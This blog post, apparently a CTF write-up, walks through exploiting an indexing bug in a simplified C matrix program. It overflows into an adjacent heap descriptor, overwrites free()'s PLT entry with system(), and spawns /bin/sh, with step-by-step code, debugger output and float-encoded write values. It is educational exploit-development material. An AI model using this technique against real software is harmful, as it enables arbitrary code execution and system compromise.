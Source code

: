```yaml
---
layout: post
title: A Tale of Indices
---
```


This is the story of how bad indexing code can lead to an exploit. Even though
this is on the heap, most of it doesn't actually involve malloc that much, but
relies on a specific feature of it: memory blocks are adjacent. However, it does
involve messing with the plt!

<!--more-->

## A Wild Bug Appears

First, the code. This is not exactly the original code, but simplified quite a
bit (removing the input logic, much checking and other functionality).

``` c
struct matrix
{
	int rows, cols;
	float* data; // allocated in the heap, has rows * cols floats
};

struct matrix* matrices[64]; // each matrix is allocated in the heap

float* get_addr(int id, int row, int col)
{
	// assume these values have been checked and are in range
	return &matrices[id]->data[row * mat->rows + col];
}

float get(int id, int row, int col)
{
	return *get_addr(id, row, col);
}

void set(int id, int row, int col, int val)
{
	*get_addr(id, row, call) = val;
}

int allocate(int rows, int cols)
{
	int id = get_free_id(); // logic somewhere else
	matrices[id] = malloc(sizeof(struct matrix));
	matrices[id]->rows = rows;
	matrices[id]->cols = cols;
	matrices[id]->data = calloc(sizeof(float) * rows * cols);
}

void release(int id)
{
	free(matrices[id]->data);
	free(matrices[id]);
	matrices[id] = 0;
}
```

Can you find the bug? Hint: it's in `get_addr`. The matrix indexing is
incorrect, it should be `row * mat->cols + col`. See the difference? This
overflow is what allows the shell to be spawned.

## A note on float conversion

In this program, memory is only accessible as floats. While inconvenient, this
is still usable as floats also take up the same space as ints, 4 bytes. With
enough digits, we can be guaranteed to get an identical value when we set it. To
find this value, we can use a union:

``` c
int main()
{
	union {
		int a;
		float b;
	};
	// set a or b here
	// e.g. a = 0x100
	printf("%8x %.9g", a, b);
}
```

Later on, we'll also write strings. Since the system is little endian (x86), we
just use the characters' ASCII value, in reverse order (for each 4-byte chunk).

## Exploit Preparation

Firstly, a bit on `malloc()`. It obtains memory from the system (usually via
`mmap()`), and divides it up into chunks. These are then allocated when
requested by the programmer. Since the block given is the first that fit the
size, this results in the matrices and their descriptors being allocated right
next to each other:

``` raw
+-------------+-------------------+-------------+-------------------+
| (sz) | mat1 | (sz) | mat1->data | (sz) | mat2 | (sz) | mat2->data |
+-------------+-------------------+-------------+-------------------+
```
As a result, we can exploit the bad indexing to overwrite the matrix descriptor
(in this case mat2) from the previous data block (mat1->data). Through this, we
can overwrite the data pointer of mat2 to whatever we want, allowing us to write
to any location in memory. One potential target is the plt (procedural link
table), which lists the location of functions of dynamically loaded libraries
(e.g. libc). However, one specific entry is of interest - `free()`. When
matrices are released, this is called on user-editable data, and with that as
the only argument. `system()` also takes a pointer as a single argument!

However, there is a problem: dynamic libraries can be loaded anywhere, and so
can `system()`. However, it is always at the same offset from `free()`, and we
can use that, along with the existing plt entry to calculate the position of
`system()`.

## Actual Exploit

First, we need to get some information:

``` raw
$ objdump -R matrix | grep free
0804a10c R_386_JUMP_SLOT   free
$ gdb -q matrix
Reading symbols from matrix...(no debugging symbols found)...done.
(gdb) p __libc_system - __libc_free
$1 = -228656
```

Now, we perform the actual exploit. First, we create 2 matrices which have more
rows than columns (e.g. 8*7). We then create and release another matrix. This is
required to initialize the plt entry to the actual location of `free()`
(`__libc_free()`), from which we can figure out the location of `system()` using
the offset. We now can use the overflowing get_addr logic to overwrite mat2's
data pointer to point to 0x0804a10c (the address of the plt entry).

``` c
allocate(8, 7); // id 0
allocate(8, 7); // id 1
allocate(1, 1); // id 2
release(2);
```

Now, how do we figure out where to write to overwrite that pointer? Since it's
the last element of the struct, we search down from the top, until we get to the
second non-zero value. Why second? Because the first would be the size of the
next block, and we have no need overwriting that. From my tests, it appears that
with an 8*7 matrix, the value is located at [7,4], which we overwrite with the
float equivalent of 0x0804a10c.

``` c
set(0, 7, 4, 3.991161479e-34); // mat[7][4] = 0x0804a10c
```

Then, we can get the current value of the plt entry, which would be the address
of `__libc_free()`. We can add the offset (-228656) to this to get the address
of `__libc_system()` and overwrite the exiting value with this.

``` c
get(1, 0, 0); // returns -4.468552546e+33 == 0xf75c5110
set(1, 0, 0, -4.397786941e+33); // mat[0][0] = 0xf758d3e0 == (0xf75c5110 - 228656)
```

Now that we have overwritten `free()`, we can write the payload, which is
"/bin/sh" (you can use any command here though). And we execute the command by
freeing that matrix.

``` c
set(0, 0, 0, 1.805717599e+28); // mat[0][0] = 0x6e69622f == '/bin'
set(0, 0, 1, 9.592211688e-39); // mat[0][0] = 0x0068732f == '/sh\0'
release(0);
$
```

Shell!
